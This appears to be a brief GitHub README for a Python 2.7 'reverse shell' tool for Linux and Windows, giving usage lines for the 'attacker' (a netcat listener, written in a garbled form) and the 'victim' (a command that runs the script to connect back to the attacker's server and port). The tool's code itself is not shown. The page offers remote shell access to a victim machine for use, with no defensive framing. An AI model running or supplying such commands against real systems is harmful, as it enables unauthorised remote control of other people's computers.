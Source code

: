 # reverse shell friendly
simple tool to reverse shell using python for Linux & Windows
by :mathio.dz

## Prerequisites

Python 2.7

###Usage:
### Attacker

```
mathio@dz nc-vlp port
```

## Victim
```
python2 reverse_shell.py server port linux/windows
```

